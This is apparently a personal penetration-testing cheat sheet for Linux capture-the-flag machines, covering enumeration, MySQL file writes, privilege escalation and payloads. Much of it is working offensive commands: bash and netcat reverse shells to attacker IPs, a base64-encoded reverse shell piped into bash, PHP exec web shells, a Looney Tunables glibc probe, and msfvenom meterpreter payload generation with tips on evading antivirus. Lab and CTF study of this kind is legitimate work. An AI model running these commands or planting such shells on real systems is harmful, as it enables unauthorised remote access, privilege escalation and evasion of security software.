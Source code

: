 # Linux CheatSheet
## General

```bash
find . -type f -name "*.db" 2>/dev/null
#find all files with extension in current dir

md5sum <filename> 
#gets md5 hash of file

find / -type d -name '.git'
#finds dirs with name

cd /var/mail && cd /var/spool/mail
#check for mail

true && echo hi
#hi will be echoed

false && echo hi 
#hi will not be echoed

false/true & echo hi | false/true ; echo hi 
#hi will always be echoed

netstat -tulpn
#lists all ports in use

grep -i something
#case insensitive search

```

${IFS} can be used in place of whitespace when no whitespace allowed

jd-gui used to decompile jar files

## Enumeration

```bash
mkdir nmap
nmap -A -T4 -v -oN nmap/initial $IP 
sudo masscan -p1-65535,U:1-65535 $IP --rate=1000 -e tun0 -oL nmap/masscan

hosts
#alias for 'sudo nano /etc/hosts'

dirsearch -u $URL
gobuster dir -u $URL -w /home/kali/directory-list-2.3-medium.txt

ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb -H "Host:FUZZ.devvortex.htb" -mc 200,204,301,307,401,403,405,500
#fuzzes subdomains

wpscan --url <url> -v -e 

sudo responder -wA -I tun0 -v 
#Spoofs every server imaginable to get info on connection attempts

dig axfr @<ip> <hostname>
#gets other hostnames from port 53 of server

```
Always google open ports, not just services shown/guessed by nmap

.dockerenv in / means you're in a docker container

gitdump used to dump .git directories 

if nmap only shows scanning 2 ports with -p- use -Pn


## MySQL

```bash
mysql -u <username> -p <database>
#connect to mysql database on machine
show databases;
use <databasename>;
show tables;

```

mysql can usually write into /var/lib/mysql/

SELECT "bashscript" into outfile '/dev/shm/malware.sh';

SELECT from_base64("base64encoded") into outfile '/dev/shm/nothing.txt';

## Postgres
```bash
psql -h <localhost> -U <username> 
```


## RevShells

```bash
bash -i >& /dev/tcp/10.10.15.59/9002 0>&1
nc 10.10.14.54 8888 -e bash

echo "bash -i >& /dev/tcp/10.10.15.59/8000 0>&1" | base64
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC84ODg4IDA+JjE= | base64 -d | bash

which python
which python3

python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo #with ctrl-z/backgrounded
fg
export TERM=xterm
reset
```

/home/kali/php-reverse-shell.php is php reverse shell that can be uploaded to php server

For things running on localhost, if you have ssh session then you can forward it to yourself using ~C , then -L 8080:localhost:8080

## PHP

With PHP, can put <?php exec("command"); ?> in a .php file then call it

Or exec("command"); in interactive php

Remember to base encode, and not have + in them as will fuck with url encoding. double base encoding usually works well

Also, when calling .php files try both with and without the extension in web browser...

## PrivEsc

```bash
sudo -l 
#shows any commands to be run as sudo by user
#(scriptmanager : scriptmanager) NOPASSWD: ALL means you can execute any commands as scriptmanager
sudo -u scriptmanager <command>

chmod +x pspy && ./pspy 
#sees all commands run, can find cron run as sudo etc

/home/kali/linpeas.sh 
#good tool for PE enum

env 
#shows env variables, could have creds

uname -a 
#shows linux build, could be vuln

ldd --version
#shows GLIBC version, could be vuln (loonytoonables)

env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
#loonytoonables vuln if returns Segmentation fault (core dumped)

ps aux ww

find / -perm -u=s -type f 2>/dev/null 
#finds suid bit

python2 fallofsudo.py

```

look in all interesting folders, .git, .config, /var/www, /, .local

check /var/www, use ls -la. .env is common php password storage thingie

## Web

https://beautifier.io/ - Use detect packers & obfuscators

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

with basic http auth (website shows popup asking for creds) you can clear prefixing url. ie http://username:password@url.com


## Meterpreter

Staged means normal rev shell. OS/meterpreter/reverse_tcp is staged. It's much smaller, but much more fingerprinted and hard to bypass AV

Unstaged means special meterpreter shell. OS/meterpreter_reverse_tcp is unstaged. Pretty big (150+ KB) but can be obviscated much better

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f <format> -o outfile.exe
#payload creation made easy :)

```

## Python

venv is useful for running python scripts which may have outdated dependancies

```bash
python3 -m venv <environment name>
source <environment name>/bin/activate

pip list 
#should only show 2 libraries, used to confirm

pip install -r requirements.txt
#install requirements in venv

deactivate
#exits venv

```